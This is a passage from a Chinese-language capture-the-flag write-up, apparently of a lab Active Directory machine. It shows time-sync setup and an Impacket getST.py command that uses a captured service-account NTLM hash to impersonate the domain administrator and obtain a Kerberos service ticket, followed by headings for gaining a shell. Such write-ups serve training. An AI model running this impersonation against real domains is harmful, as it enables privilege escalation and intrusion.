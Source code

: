 启动虚拟机备份并安装 ntupdate 和 chrony：  
apt install ntpdate chrony  
[![](assets/1701071906-9c14a6e88a6204464e5d3546b8ec9265.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231125213245-1dde45f6-8b97-1.png)  
getST.py -dc-ip 10.10.10.248 -spn www/dc.intelligence.htb -hashes :87c12d4a0641b2b17fb5620cc2db2ca8 -impersonate administrator intelligence.htb/svc\_int  
[![](assets/1701071906-c4cca07e9266c1b96f7d0e44469d65b4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231125213257-2535a2c2-8b97-1.png)

## 获取 shell

成功获取管理员权限。

[![](assets/1701071906-26a8597eb32a8f3b8d5affea332163bf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231125213315-2fa6de60-8b97-1.png)

## 获取 root.txt
